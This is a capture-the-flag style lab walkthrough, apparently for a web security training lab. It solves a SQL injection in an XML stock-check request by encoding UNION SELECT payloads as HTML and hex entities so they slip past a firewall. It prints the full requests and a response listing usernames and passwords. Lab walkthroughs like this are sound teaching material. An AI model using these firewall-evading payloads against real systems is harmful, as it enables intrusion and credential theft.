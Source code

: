 **Hint:** A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the Hackvertor extension to do this.

1. check for number of columns and their support of string type values using this payload:
```sql
Union SELECT 'test' FROM information_schema.tables 
```

**request1 (manually encoded)**:
```
POST /product/stock HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>4</productId><storeId>
999 &#x75;nion &#x53;ELECT &apos;test&apos; FROM information_schema.tables
</storeId></stockCheck>
```
**request2 (using hackvertor)**:
```
POST /product/stock HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>4</productId><storeId>
<@html_entities>
999 union SELECT NULL,NULL FROM information_schema.tables
<@/html_entities>
</storeId></stockCheck>
```
repeat this try with 2 'tests and see the payload fails
now we know we have *1 field* in resualts and it *supports string*

2. payload to extract users and passwords:
**request**
```sql
UNION SELECT username ||'  :   '|| password FROM users
```
(note we cant use + signs instead of <space> since its xml not url...)
```
POST /product/stock HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>4</productId><storeId><@hex_entities>1 UNION SELECT username ||'~'|| password FROM users<@/hex_entities></storeId></stockCheck>
```
response:
```
HTTP/1.1 200 OK

administrator  :   bxjt82k71f9xgi1ne864
617 units
wiener  :   tsxcut3s6e27f2whmyzq
carlos  :   ywmmiqxmwkqqysur22fg

```
# Lab solved!
